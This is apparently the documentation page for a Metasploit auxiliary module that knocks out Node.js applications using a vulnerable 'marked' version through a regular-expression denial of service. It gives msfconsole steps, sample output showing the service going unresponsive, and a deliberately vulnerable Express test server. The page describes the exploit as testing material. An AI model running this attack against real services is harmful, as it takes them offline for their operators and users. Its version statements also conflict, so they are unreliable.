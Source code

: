## Vulnerable Application

This auxiliary module exploits a Regular Expression Denial of Service vulnerability
in the npm module `marked`.  The vulnerable regex is in the "heading" processing. 
Versions before 0.3.19 are vulnerable.
Any application that uses a vulnerable version of this module and passes untrusted input
to the module will be vulnerable.

## How to Install

To install a vulnerable version of `marked`, run:
```
npm i marked@0.3.19
```

## Verification Steps

Example steps in this format (is also in the PR):

1. Create a new directory for test application.
2. Copy below example server into test application directory as `server.js`.
3. Run `npm i express` to install express in the test application directory.
4. To test vulnerable versions of the module, run `npm i marked@0.3.19` to install a vulnerable version of marked.
5. To test non-vulnerable versions of the module, run `npm i marked` to install the latest version of marked.
6. Once all dependencies are installed, run the server with `node server.js`.
7. Open up a new terminal.
8. Start msfconsole.
9. `use auxiliary/dos/http/marked_redos`.
10. `set RHOST [IP]`.
11. `set HTTP_METHOD get` (optional)
12. `set HTTP_PARAMETER foo` (required)
13. `set URI /path/to/vulnerable/route` (optional)
14. `run`.
15. In vulnerable installations, Module should have positive output and the test application should accept no further requests.
16. In non-vulnerable installations, module should have negative output and the test application should accept further requests.

## Scenarios

### marked npm module version 0.3.19

Expected output for successful exploitation:

```
[*] Testing Service to make sure it is working.
[*] Test request successful, attempting to send payload
[*] Sending ReDoS request to 192.168.3.24:3000.
[*] No response received from 192.168.3.24:3000, service is most likely unresponsive.
[*] Testing for service unresponsiveness.
[+] Service not responding.
[*] Auxiliary module execution completed
```

### Example Vulnerable Application

```
// npm i express body-parser
// npm i marked@0.3.19 (vulnerable)
// npm i marked (non-vulnerable)

const marked = require('marked');
const express = require('express');
const bodyParser = require('body-parser');

var app = express();
app.use(bodyParser.text({ type: 'text/html' }));

// create application/json parser
const jsonParser = bodyParser.json();

// create application/x-www-form-urlencoded parser
const urlencodedParser = bodyParser.urlencoded({ extended: false });

app.get("/", urlencodedParser, function(req, res) {
  var result = req.query.foo ? marked(req.query.foo) : 'nothing';
  res.end(result);
});

app.post("/cat", urlencodedParser, function(req, res) {
  var result = req.body.bar ? marked(req.body.bar) : 'nothing'
  res.end(result);
});

app.listen(3000, '0.0.0.0', function() { console.log('Application listening on port 3000 on all interfaces!'); });
```
